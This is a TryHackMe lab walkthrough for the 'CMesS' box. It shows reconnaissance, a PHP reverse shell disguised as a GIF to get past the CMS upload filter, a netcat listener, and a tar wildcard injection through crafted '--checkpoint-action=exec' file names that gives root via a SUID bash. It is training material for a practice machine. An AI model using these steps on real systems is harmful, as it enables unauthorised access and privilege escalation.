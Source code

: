 In this walkthrough, we'll go over a challenge (intermediate) level box called "CMesS". CMesS is one of the Linux Privesc boxes on [TryHackMe](https://tryhackme.com/room/cmess) and it was also one of the challenges from [TCM's Linux Privilege Escalation Course on Udemy](https://www.udemy.com/course/linux-privilege-escalation-for-beginners/).

![CMesS](CMesS.png)
![CMesS IP](CMesS-IP.png)

Let's start the scanning process with nmap. The IP address would be different when you deploy it:
```bash
nmap -sTV -n -sC -T4 -p- 10.10.227.177 --open
```
![CMesS nmap](CMesS-nmap.png)

Let's also run the vulnerability scripts as well:
```bash
nmap --script vuln -p 22,80 10.10.227.177
```
![CMesS nmap vuln](CMesS-nmap-vuln.png)

However, nmap vuln scan didn't reveal much. Since port 80 is open and Apache httpd 2.4.18 is running, we can start a directory search:
```bash
dirsearch -u http://10.10.227.177 -e php,cgi,html,htm,bak,old,txt -r
```
![CMesS dirsearch-1](CMesS-dirsearch-1.png)
![CMesS dirsearch-2](CMesS-dirsearch-2.png)

After enumerating every folder, I realized that a valid set of credentials required to get into this application:

![Gila index](Gila-index.png)
![Gila admin](Gila-admin.png)

It looks like we have exhausted every option, on my end I also went through every Github exploit related to Apache 2.4.18 (Ubuntu). Next option is to look for subdomains:
```bash
wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hl 107 -H "Host: FUZZ.cmess.thm" -u http://cmess.thm -t 100
```
![CMesS wfuzz](CMesS-wfuzz.png)

As we can see there is another domain "dev", let's add that to our /etc/hosts file and try to visit the site:

![CMesS /etc/hosts](CMesS-hosts.png)

![CMesS dev domain](CMesS-dev-domain.png)

Now, we can try to use andre@cmess.thm email with the above (blurred) password. Once we login, we can browse to "Content" --> "Media" to see if we can upload a reverse shell:

![Gila admin console](Gila-admin-console.png)

We can upload a txt file to see if there is a file type restriction for upload and then intercept the traffic with BurpSuite:

![Gila burp suite intercept](Gila-burp-suite-intercept.png)

And it looks like, we can only upload media files. Let's think about it for a second, we can upload png, jpeg, jpg, or gif so how do we do that? Let's download PHP reverse shell from https://github.com/pentestmonkey/php-reverse-shell and we need to change the IP address, and port if you would like. Now, change the file extension to gif:
```bash
cp php-revshell.php php-revshell.php.gif
```
Upload it to the website, but intercept it with BurpSuite and add "GIF89a;" on the top of PHP code:

![Gila BurpSuite intercept](Gila-gif-intercept.png)

![Gila revshell](Gila-revshell.png)

Let's change the file name to "php-revshell.php" on the Gila site:

![Gila php revshell](Gila-revshell-php.png)

Turn off the proxy and start a netcat listener on our Kali machine ```nc -nlvp 1234``` Now, all we need to do this is visiting cmess.thm/assets/php-revshell.php If all goes well, we should receive a reverse shell back:

![Gila initial foothold](Gila-initial-foothold.png)

From this point on, I decided to use LinEnum from https://github.com/rebootuser/LinEnum. I always save Github scripts to my opt directory so I started a Python server and brought it over the compromised machine, but before let's upgrade our shell with python3:

![Which Python](CMesS-Which-Python.png)
```bash
/usr/bin/python3 -c 'import pty;pty.spawn("/bin/bash");'
```
```bash
sudo python3 -m http.server 1111
```
And you can use wget on the target machine to download it. After downloading, make sure that it is executable ```chmod +x LinEnum.sh```. Now, we are ready to run LinEnum ```./LinEnum.sh```

If we look at the output, the first thing we see is a password.bak file which we have read right to it:

![LinEnum output](CMesS-LinEnum-output.png)

```cat /opt/.password.bak```

![Password Content](CMesS-Password-Content.png)

We know that port 22 is open which is SSH so let's try to ssh into the machine with andres password:
```bash
ssh andres@cmess.thm
```
![SSH into](CMesS-SSH-Into.png)

It worked and we can also see ```user.txt``` file which has the user flag. Last task remaining is to become root. I am again running LinEnum to see if I can find anything interesting that can be used to escalate privileges.

![LinEnum-Crontab](CMesS-LinEnum-Crontab.png)

![LinEnum-Sudo-Version](CMesS-Sudo-Version.png)

![LinEnum-SUID-Files](CMesS-SUID-Files.png)

I tried sudo version exploit and other SUID files and nothing worked for me. The last thing left is to use cron jobs to get a root shell. If we look at the last cron job, we see that it is run by root. It goes into ```/home/andre/backup``` and creates a backup file in ```/tmp```. Here is the script to escalate our privilege via the last cron job:
```bash
echo ‘cp /bin/bash /tmp/bash; chmod +s /tmp/bash’ > runme.sh  --> this generates runme.sh file which copies /bin/bash to /tmp
touch /home/andre/--checkpoint=1 
touch /home/andre/--checkpoint-action=exec=sh\ runme.sh
```
After that we wait for about one minute and then check ```/tmp``` folder to see if bash has been copied:

![Bash](CMesS-bash.png)

Now, we can run the bash file with ```/tmp/bash -p```

1[Root](CMesS-Root.png)

Woww, we have done it, we can grab the root file which has the root flag.

I hope you enjoyed this walkthrough.

[<= Go Back to TryHackMe Walkthrouhgs](TryHackMeWalkthroughs.md)

[<= Go Back to Main Menu](index.md)


